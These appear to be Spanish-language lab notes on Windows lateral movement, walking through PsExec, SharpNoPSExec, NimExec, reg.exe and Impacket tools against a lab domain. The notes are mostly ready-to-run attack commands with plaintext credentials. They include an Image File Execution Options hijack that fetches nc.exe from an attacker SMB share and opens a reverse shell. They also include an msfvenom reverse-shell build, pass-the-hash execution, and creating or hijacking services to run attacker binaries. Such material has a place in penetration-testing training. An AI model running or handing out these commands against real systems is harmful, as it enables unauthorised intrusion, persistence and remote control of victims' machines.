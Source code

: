 # Necesidades

- Privilegios de administrador local


# Desde windows

### PsExec

Es una herramienta parte del Sysinternals suite. 

1. Establece un link en la carpeta ADMIN$ (c:\windows) mediante SMB
2. Usa el service control manager(SCM) para iniciar el servicio PsExecsvc y setea un pipe.
3. Redirige los ingresos en la consola mediante el pipe.

##### Uso

    .\PsExec.exe \\SRV02 -i -u INLANEFREIGHT\helen -p RedRiot88 cmd

Si queremos ejecutarlo como NT AUTHORITY\SYSTEM

    .\PsExec.exe \\SRV02 -i -s -u INLANEFREIGHT\helen -p RedRiot88 cmd

### SharpNoPSExec

**Mejora el anonimato** aprovechando servicios que ya están corriendo en el host. 

No genera una shell de por sí, con lo que tendremos que generarla nosotros agregando un payload de revshell.

1. Busca todos los servicios en el host.
2. Identifica todos los que tienen el start como "disable" o "manual", que su estado es stopped y sean corridos con privilegios de LocalSystem.
3. Selecciona uno, modifica el path al binario del mismo para apuntar a un payload dado por el atacante.
4. Luego de la ejecución, espera 5 segundos para volver el servicio a su path original.

Por defecto usa las creds del user que está corriéndolo. Si quisieramos hacerlo con otro user podemos agregar las flag "--username", --"password" y "--domain"

    .\SharpNoPSExec.exe --target=172.20.0.52 --payload="c:\windows\system32\cmd.exe /c powershell -exec bypass -nop -e ...SNIP...AbwBzAGUAKAApAA=="

### NimExec

Funciona igual que SharpNoPSExec pero permite hacer un **pass the hash**

    .\NimExec -u <user> -d <domain> -h <hash> -t <ip> -c "cmd.exe /c powershell -e JABjAGwAaQBlAG...SNIP...AbwBzAGUAKAApAA==" -v

### reg.exe

Esta herramienta utiliza el pipe del winreg SMB. Usualmente solo está habilitado en SO de tipo server.
Nos permite escribir en el registro de windows para indexar el uso de un servicio/programa a la ejecución de un payload malicioso.

1. Primero levantamos un servidor SMB donde alojamos nuestro binario malicioso

        sudo python3 smbserver.py share -smb2support /home/plaintext/nc.exe

2. Iniciamos un listener
3. Cambiamos el valor del SMB share folder a 1 (esto hace que se pueda acceder al mismo sin autenticación)

        reg.exe query HKLM\SYSTEM\CurrentControlSet\Services\LanmanWorkstation\Parameters /v AllowInsecureGuestAuth
    
4. Ejecutamos reg agregando el full path al servicio que vamos a envenenar junto con el path al binario malicioso. (Este ejemplo es con el edge de microsoft. Recomendamos usar chrome)

        reg.exe add "\\srv02.inlanefreight.local\HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\msedge.exe" /v Debugger /t reg_sz /d "cmd /c copy \\172.20.0.99\share\nc.exe && nc.exe -e \windows\system32\cmd.exe 172.20.0.99 8080"

5. Esperamos a que alguien ejecute el programa para que se dispare el payload malicioso.

---

# Desde linux

### psexec.py

Crea un servicio dentro del ADMIN$ subiendo un binario con nombre alatorio y nos devuelve una shell.

    psexec.py INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52

### smbexec.py

- Corre comandos arbitrarios en un sistema remoto sin subir un archivo **es más silencioso**
- Crea un servicio en el sistema


        smbexec.py INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52

### Services.py

- Interactua con el MSRPC.
- Permite iniciar, parar, elimintar, leer el satado, configurar, listar crear y modificar los servicios.
- No es interactivo, con lo cual no obtendremos respuestas.

##### Listar los servicios del sistema

    services.py INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 list


##### Crear un servicio con shell reversa

1.Creamos una shell y la metemos en nuestro smb:

    msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.207 LPORT=9001 -f exe-service -o rshell-9001s.exe

2. corremos el script incidandole el camino a la shell en nuestro smb

        services.py INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 create -name 'Service Backdoor' -display 'Service Backdoor' -path "\\\\10.10.14.207\\share\\rshell-9001.exe"
##### Iniciar el servicio

1. Iniciamos un listener
2. llamamos al servicio que creamos.

        impacket-services INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 start -name 'Service Backdoor'

3. una vez terminado eliminamos el servicio

        services.py INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 delete -name 'Service Backdoor'

##### Modificar un servicio
1. Listamos los servicios
2. Elegimos el servicio y le indicamos que corra con nuestro binario malicioso.

        impacket-services INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 change -name Spooler -path "\\\\10.10.14.207\\share\\rshell-9001.exe" -start_type 2
3. Iniciamos el servicio

        impacket-services INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 start -name Spooler

### atexec.py

#### ¡¡¡Para que funcione tienen que estar sincronizados los relojes de la máquina victima y la del atacante!!!

Utiliza el Windows Task Scheduler service que es accesible mediante el pipe SMB atsvc.

1. Iniciamos un listener
2. Creamos un payload con revshells
3. Corremos el script

        atexec.py INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 "powershell -e ...SNIP...AbwBzAGUAKAApAA=="
